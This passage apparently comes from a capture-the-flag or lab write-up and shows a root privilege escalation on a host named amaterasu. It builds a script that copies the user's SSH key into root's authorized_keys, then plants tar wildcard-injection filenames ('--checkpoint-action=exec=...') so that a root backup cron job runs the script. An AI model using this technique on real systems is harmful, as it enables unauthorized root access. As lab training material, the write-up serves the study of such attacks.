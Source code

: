 
We begin by creating a script to copy our key to the root user:

  

[alfredo@amaterasu ~]$ cd restapi

[alfredo@amaterasu restapi]$ echo '#!/bin/bash' >> getroot.sh

[alfredo@amaterasu restapi]$ echo 'cp /home/alfredo/.ssh/authorized_keys /root/.ssh/authorized_keys ' >> getroot.sh

[alfredo@amaterasu restapi]$ cat getroot.sh 

#!/bin/bash

cp /home/alfredo/.ssh/authorized_keys /root/.ssh/authorized_keys 

  

Now we can tamper with the backup process:

  

[alfredo@amaterasu restapi]$ touch ./--checkpoint=1 ./--checkpoint-action=exec=getroot.sh

  

We wait a few minutes for the cronjob to execute before trying to SSH in to the system as the ROOT user:

  

ssh -p 25022 -i id_alfredo root@192.168.56.101

Last login: Wed Apr 27 21:53:59 2022 from 192.168.56.1

[root@amaterasu ~]# cat proof.txt